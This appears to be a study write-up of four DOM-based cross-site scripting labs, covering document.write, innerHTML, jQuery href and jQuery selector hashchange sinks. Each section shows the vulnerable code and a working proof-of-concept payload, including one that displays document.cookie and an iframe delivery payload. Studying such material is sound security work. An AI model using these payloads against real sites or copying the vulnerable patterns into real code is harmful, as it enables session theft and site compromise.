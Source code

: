 # Function that uses "document.write()" and concatenation of the input string

### Scenario

```javascript
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}
```
With the document.write function it writes the "img" tag with the specified "src" parameter. In it there is a concatenation with the parameter that the user give to the page.

The parameter is taken from window.location.search and the parameter name is "search". If the is not empty then the JS function "trackSearch" is called.

N.B.: the window.location.search take anything which comes after the question mark in the URL.

In the DOM the passed element is displayed in the "img" tag created by the JS function:
```html
<img src="/resources/images/tracker.gif?searchTerms=test">
```

### Exploitation

We can pass this string as input:

```
test" onload=alert()
```

Here, what happens is the following:
- The img tag is created as shown before;
- Now, due to the presence of " we are able to break the string automatically created by the JS function;
- The image is actually loaded, but given the presence of the onload action we inserted, the action specified in it will be perfomed after the image loading;
- We inserted the alert() function in the onload action, so we expect to see an alert box on the web page;
- We cannot close the " because there is that already inserted by the JS function.

The HTML resulting from this input is the following:
```html
<img src="/resources/images/tracker.gif?searchTerms=test" onload=alert()">
```

# INNER.html sink using source "location.search"

### Scenario

```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

This JS code snippet takes the input string with "window.location.search" and takes the parameter called "search".

This string is passed to the JS function and used with the innerHTML.

DOM in which the input is diplayed:

```html
<span id="searchMessage">uniquetest</span>
```

In innerHTML if we pass a <script> tag it won't be executed. This is a security feature. So we need to pass something else.

### Exploit
We can use:
```
<img src='0' onerror=alert()>
```
The src provided will cause an error and onerror we load the alert() function.
As we seen before the "script" tag is not executed but not the "img" tag.

The DOM modified is the following:
```html
<span id="searchMessage">
    <img src="0" onerror="alert()">
</span>
```

# DOM XSS in JQuery anchor href attribute sink using location.search source

### Scenario
JQuery is a JS framework with a little bit different syntax from vanilla JS.

```html
<a id="backLink" href="/">Back</a>
```

This back link on the page, redirect the users to the previous page.

The href is populated by a JQuery script.

```javascript
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```

- $('#backLink') this select the element with the id="backLink";
- attr("href") go inside the attribute href in the selected ID;
- Assign to this attribute the value retrieved from the URL parameter called "returnPath".

### Exploit
If we have an anchor tag (<a>) and inside the href parameter of it we have "javascript:SOMEJS", SOMEJS will be executed directly.


We can assign to the returnPath URL parameter something like this:
```
javascript:alert(document.cookie)
```

Resulting DOM:
```html
<a id="backLink" href="javascript:alert(document.cookie)">Back</a>
```

When we will click on the link on the web page, the JS will be executed. We will get an alert with the cookie shown inside.

# JQuery selector sink using hashchange

### Scenario

In the page source, we can see the following JS script:
```javascript
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

What's an **hashchange event**?
You can put an hashtag (#) at the end of the url followed by a number or a word.
It's often used as bookmarking functionality.

The JS function showed creates a variable called "post".
It assign to the variable the content of the h2 tag which contains the value of the hashchange we pass to the URL parameter contained inside the section "blog-list".

Clearly, the "contains" method search for a value that we can manipulate.

N.B.: **In some version of JQuery the function "contains" may behave as unexpectedly**. So, if we try to give to it the argument "<h1> somethingUNIQUE </h1>" and print the variabile "post" we may notice that post variable contains our h1 tag.
**In other words, the contains method created the object passed as argument to it.**
This DOM element isn't inserted in the page, but it's a **detached DOM element**.

We can give it a parent node, so, in other words, we can attach in to the DOM of the web page:

```javascript
var mynode = document.getElementById("something");
mynode.appendChild(post)
```

### Exploit

We can exploit the vulnerability above, by using a tag like "<img>" and forcing it to the error and hen using a onerror functionality.

```javascript
let myimg = document.createElement('img')
myimg.src = 0 //nosense value of the src
```

We can pass it as payload:

```html
<img src=0 onerror='alert()'>
```

In this case we can avoid to attach this img tag to the web page DOM because we can notice from the network connection panel of our browser that it calls immediatly the "src" location although this "img" tag isn't attached to the DOM of the web page.

In some case, we can deliver a simiilar payload using **"iframe"**:
```html
<iframe src="https://theVulnerablePageURL/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

This code load the vulnerable page inside a box (the iframe) and then append to the URL in the src field the hashchange value which exploits the vulnerability.
